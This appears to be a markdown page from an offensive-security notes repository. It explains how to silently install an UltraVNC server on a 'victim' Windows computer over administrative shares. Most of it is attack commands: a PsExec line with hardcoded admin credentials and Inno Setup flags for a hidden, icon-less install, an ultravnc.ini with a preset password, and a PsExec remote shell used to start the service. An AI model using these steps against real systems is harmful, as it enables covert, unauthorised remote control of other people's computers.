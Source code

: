 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![Administrative shares](assets/administrative-shares.png "Administrative shares")

# Install VNC Server to Victim via Administrative Shares

You can remotely view or control the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

## Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

`psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"


 The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

## Step 4: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

`
[ultravnc]
passwd=56B6ACA18D1BA76008
passwd2=56B6ACA18D1BA76008
`

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

## Step 5: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

`psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service